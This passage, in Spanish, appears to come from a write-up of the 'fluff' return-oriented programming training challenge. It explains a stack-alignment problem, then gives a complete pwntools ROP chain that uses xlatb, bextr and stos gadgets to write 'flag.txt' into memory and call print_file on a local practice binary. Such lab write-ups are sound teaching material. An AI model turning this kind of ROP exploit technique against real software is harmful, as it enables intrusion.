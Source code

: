 Este script funcionará en según qué máquinas, pero en otras dará error en la alineación del stack. Además, no podemos añadir ninguna instrucción porque nos volvemos a pasar de longitud.

Sin embargo, si debugeamos un poco nos daremos cuenta de que después de stos `BYTE PTR es:[rdi],al`, `rdi = rdi + 1`, que es precisamente el valor que necesitamos, por lo que no necesitamos un segundo `pop rdi`. Así el segundo script quedaría:

```python
from pwn import *


offset = b'A'*40
subtract = 0x3ef2

xlatb_ret = p64(0x400628)
poprdx_rcx_addrcx_bextr_ret = p64(0x40062a)
stosrdi_ret = p64(0x400639)
poprdi_ret = p64(0x4006a3)
moveax0_poprbp_ret = p64(0x400610)
ret = p64(0x400295)

addr_flag = ['0x4003c4', '0x4003c5' , '0x4003d6', '0x4003cf', '0x40024e', '0x400192', '0x400246', '0x400192']
addr_str = 0x601028
print_file = p64(0x400510)

payload = offset 

flag_str = b"flag.txt"

for i in range(len(addr_flag)):
    if(i == 0):
        sub_rax = 0xb
    if(i != 0):
        sub_rax = flag_str[i - 1]
    payload += poprdx_rcx_addrcx_bextr_ret
    payload += p64(0x4000)                                              #take 8 bytes
    payload += p64(int(addr_flag[i], 16) - subtract - sub_rax)          # take correct value rcx: the address contain char in "flag.txt"
    payload += xlatb_ret                                                #take the one byte at the address which stores in rbx to al 
    if(i == 0):
        payload += poprdi_ret
        payload += p64(addr_str + i)
    payload += stosrdi_ret
    
payload += poprdi_ret
payload += p64(addr_str)
payload += ret
payload += print_file

with open("debug", "wb") as binary_file:
    binary_file.write(payload)
    
r = process('./fluff')
r.recvuntil(b'> ')
r.sendline(payload)
r.interactive()
```